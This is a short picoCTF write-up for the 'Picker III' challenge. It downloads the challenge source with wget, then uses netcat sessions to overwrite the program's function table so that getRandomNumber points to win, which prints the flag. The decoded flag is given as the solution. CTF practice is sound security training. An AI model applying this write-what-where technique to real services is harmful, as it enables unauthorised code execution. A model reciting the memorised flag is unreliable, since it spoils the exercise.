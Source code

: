 ## Introducción
Can you figure out how this program works to get the flag?Connect to the program with netcat:`$ nc saturn.picoctf.net 57005`The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/525/picker-III.py).

1.-Is there any way to modify the function table?
## Descripción
```

┌──(kali㉿kali)-[~/p3]
└─$ wget -4 https://artifacts.picoctf.net/c/525/picker-III.py
--2024-11-26 01:26:22--  https://artifacts.picoctf.net/c/525/picker-III.py
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.161.55.26, 3.161.55.100, 3.161.55.64, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.161.55.26|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4439 (4.3K) [application/octet-stream]
Saving to: ‘picker-III.py’

picker-III.py       100%[==================>]   4.33K  --.-KB/s    in 0s      

2024-11-26 01:26:22 (209 MB/s) - ‘picker-III.py’ saved [4439/4439]

                                                                               
┌──(kali㉿kali)-[~/p3]
└─$ nc saturn.picoctf.net 57005
==> 3
Please enter variable name to write: win
Please enter new value of variable: 
                                                                               
┌──(kali㉿kali)-[~/p3]
└─$ nc saturn.picoctf.net 57005
==> 3
Please enter variable name to write: getRandomNumber 
Please enter new value of variable: win
==> ?

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d 
==> ^C

```
![[Pasted image 20241126002755.png]]
## Solución 
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
